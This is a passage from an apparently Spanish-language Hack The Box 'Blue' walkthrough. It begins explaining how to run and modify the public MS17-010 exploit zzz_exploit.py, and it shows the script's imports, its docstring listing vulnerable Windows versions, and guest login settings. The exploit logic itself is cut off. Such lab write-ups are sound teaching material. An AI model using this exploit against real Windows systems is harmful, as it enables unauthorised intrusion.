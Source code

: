![exploit](/assets/img/posts/HTB/blue/09.png)

## 2 Método

Lo que haremos en este caso, será ejecutar el exploit llamado **zzz_exploit.py**, para ello modificaremos lo siguiente:

```console
#!/usr/bin/python
from impacket import smb, smbconnection
from mysmb import MYSMB
from struct import pack, unpack, unpack_from
import sys
import socket
import time

'''
MS17-010 exploit for Windows 2000 and later by sleepya

Note:
- The exploit should never crash a target (chance should be nearly 0%)
- The exploit use the bug same as eternalromance and eternalsynergy, so named pipe is needed

Tested on:
- Windows 2016 x64
- Windows 10 Pro Build 10240 x64
- Windows 2012 R2 x64
- Windows 8.1 x64
- Windows 2008 R2 SP1 x64
- Windows 7 SP1 x64
- Windows 2008 SP1 x64
- Windows 2003 R2 SP2 x64
- Windows XP SP2 x64
- Windows 8.1 x86
- Windows 7 SP1 x86
- Windows 2008 SP1 x86
- Windows 2003 SP2 x86
- Windows XP SP3 x86
- Windows 2000 SP4 x86
'''

USERNAME = 'guest'
PASSWORD = ''

```
